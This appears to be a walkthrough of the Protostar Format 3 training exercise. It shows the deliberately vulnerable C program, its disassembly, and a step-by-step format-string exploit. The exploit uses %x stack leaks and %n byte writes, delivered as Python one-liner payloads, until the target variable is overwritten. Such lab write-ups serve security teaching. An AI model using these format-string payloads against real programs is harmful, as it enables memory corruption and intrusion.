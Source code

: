 # PROTOSTAR : FORMAT 3
[Protostar:Format3](https://exploit.education/protostar/format-three/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Format Strings

The level involves Format Strings Vulnerability just like the previous level but unlike the previous level this level involves writing to more than 1 byte of memory, we need to change the value of **target** variable to exactly **0x01025544**.

Below is the disassembly of the **vuln** function.
```
user@protostar:/opt/protostar/bin$ gdb -q format3
Reading symbols from /opt/protostar/bin/format3...done.
(gdb) set disassembly-flavor intel
(gdb) disass vuln
Dump of assembler code for function vuln:
0x08048467 <vuln+0>:    push   ebp
0x08048468 <vuln+1>:    mov    ebp,esp
0x0804846a <vuln+3>:    sub    esp,0x218
0x08048470 <vuln+9>:    mov    eax,ds:0x80496e8
0x08048475 <vuln+14>:   mov    DWORD PTR [esp+0x8],eax
0x08048479 <vuln+18>:   mov    DWORD PTR [esp+0x4],0x200
0x08048481 <vuln+26>:   lea    eax,[ebp-0x208]
0x08048487 <vuln+32>:   mov    DWORD PTR [esp],eax
0x0804848a <vuln+35>:   call   0x804835c <fgets@plt>
0x0804848f <vuln+40>:   lea    eax,[ebp-0x208]
0x08048495 <vuln+46>:   mov    DWORD PTR [esp],eax
0x08048498 <vuln+49>:   call   0x8048454 <printbuffer>
0x0804849d <vuln+54>:   mov    eax,ds:0x80496f4
0x080484a2 <vuln+59>:   cmp    eax,0x1025544
0x080484a7 <vuln+64>:   jne    0x80484b7 <vuln+80>
0x080484a9 <vuln+66>:   mov    DWORD PTR [esp],0x80485a0
0x080484b0 <vuln+73>:   call   0x804838c <puts@plt>
0x080484b5 <vuln+78>:   jmp    0x80484ce <vuln+103>
0x080484b7 <vuln+80>:   mov    edx,DWORD PTR ds:0x80496f4
0x080484bd <vuln+86>:   mov    eax,0x80485c0
0x080484c2 <vuln+91>:   mov    DWORD PTR [esp+0x4],edx
0x080484c6 <vuln+95>:   mov    DWORD PTR [esp],eax
0x080484c9 <vuln+98>:   call   0x804837c <printf@plt>
0x080484ce <vuln+103>:  leave  
0x080484cf <vuln+104>:  ret    
End of assembler dump.
```

Let's find the address of the **target** variable first using objdump.
```
user@protostar:/opt/protostar/bin$ objdump -t format3 | grep "target"
080496f4 g     O .bss   00000004              target
```

Now I am going to use this address as our input string and find the padding of the **printf** function pointer. So we got the **Padding** for the **1st Byte**.
```
user@protostar:/opt/protostar/bin$ (python -c 'print "\xf4\x96\x04\x08" + "%x."*12') | ./format3
�0.bffff5d0.b7fd7ff4.0.0.bffff7d8.804849d.bffff5d0.200.b7fd8420.bffff614.80496f4.
target is 00000000 :(
```

The 2nd, 3rd and 4th Bytes are going to be the adjacent addresses of the 1st byte so they are :-
- **080496f4** (Byte 1)
- **080496f5** (Byte 2)
- **080496f6** (Byte 3)
- **080496f7** (Byte 4)

In the below script, as I discussed previously the **padding** for the 1st byte = 12 and **%n** writes the number of bytes written so far. Only using **%12$n** gives **target = 4** and **0x44 = 68** in decimal so **68 - 4 = 64** so I used **%64x** which gives 64 bytes.
```
user@protostar:/opt/protostar/bin$ (python -c 'print "\xf4\x96\x04\x08" + "%64x%12$n"') | ./format3
�                                                               0
target is 00000044 :(
```

I am going to append all the necessary addresses and change their values. This is going to require some trial and errors. The best way to do this is to try to focus on 1 byte at a time. For example -> the **0x01025544** has **0x44** at the 1st byte(**LITTLE ENDIAN**) so change that first and move on to the 2nd,3rd and 4th byte.

```
user@protostar:/opt/protostar/bin$ (python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x%12$n" + "%17x%13$n" + "%173x%14$n"') | ./format3
���                                                       0         bffff5d0                                                                                                                                                                     b7fd7ff4
you have modified the target :)
```
There might be problems related to stack alignment so keep changing and figuring it out and try to match each byte with the **target** value.